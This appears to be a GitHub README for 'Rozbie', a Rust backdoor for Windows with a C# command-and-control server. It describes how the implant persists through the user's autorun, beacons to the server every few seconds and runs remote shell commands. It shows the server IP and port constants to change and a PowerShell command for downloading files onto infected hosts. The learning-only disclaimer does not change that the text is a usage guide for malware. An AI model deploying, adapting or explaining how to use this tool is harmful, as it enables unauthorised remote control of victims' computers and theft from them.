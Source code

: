 # Rozbie

Version: 0.1.0

This is a simple and very standard malware code that provide an access to the infected host.
The Rozbie works only on Windows OS.

## Project

The presented solution consists of two project:

1. Rozbie malware written in Rust. It is a program that must be run in the target system to give an intruder an access to the system's command line console.
2. Rozbie Farm is a server in which you can execute commands to run on infected with Rozbie computers. It can handle multiple instances of Rozbie.

![Rozbie Farm](https://github.com/rozensoftware/rozbie/blob/master/RozbieFarm.jpg)

## Installation

It is up to you how you install Rozbie on the target computer.
On successful run the Rozbie will add itself to the Windows current user autorun. It should run after the user logged into system.
When it is there it will try to connect to The Rozbie Farm application once per 3 seconds.
You should be able to type DOS commands in the Rozbie Farm application to be executed on the infected computer.

You must change the *IP* address and eventually the port to yours in the main.rs:

```rust
const SERVER_IP: &'static str = "192.168.0.22";
const SERVER_PORT: &'static str = "1973";
```

The same must be changed on the C# side in the Server.cs file:

```csharp
private static readonly int SERVER_PORT = 1973;
private static readonly string SERVER_IP = "192.168.0.22";
```

## Special commands

The Rozbie should execute almost every DOS command on the infected host.
There is a special command that can be executed only by the Rozbie:

1. 'q' - Shutdowns Rozbie.

**Note:** After user logged into the system current directory of the Rozbie should be Windows\System32 which can include thousands of files.
It's better to type first: 'cd ..' to change directory to one level up instead of 'dir'. There is a static buffer which can hold up to 1MB of data only.
You can change it to a bigger value of course. It is something to address in future commits but as long as it is just a small vicious program, some optimizations are missing now.

## FAQ

- How can I upload something to the infected host?

You can do it by executing PowerShell command, e.g.:

```powershell
powershell -c "Invoke-WebRequest -Uri 'https://www.website.com/file.zip' -OutFile 'c:\temp\file.zip'"
```

## Note

For a more sophisticated solution try [Flea](https://github.com/rozensoftware/flea)

## Disclaimer

The author of this code is not responsible for the incorrect operation of the presented code and/or for its incorrect use. The code presented in this project is intended to serve only to learn programming.

## License

This project is licensed under MIT

MIT license (LICENSE-MIT or <http://opensource.org/licenses/MIT>)

## Contributing / Feedback

I am always glad to learn from anyone.
If you want to contribute, you are more than welcome to be a part of the project! Try to share you thoughts first! Feel free to open a new issue if you want to discuss new ideas.

Any kind of feedback is welcome!
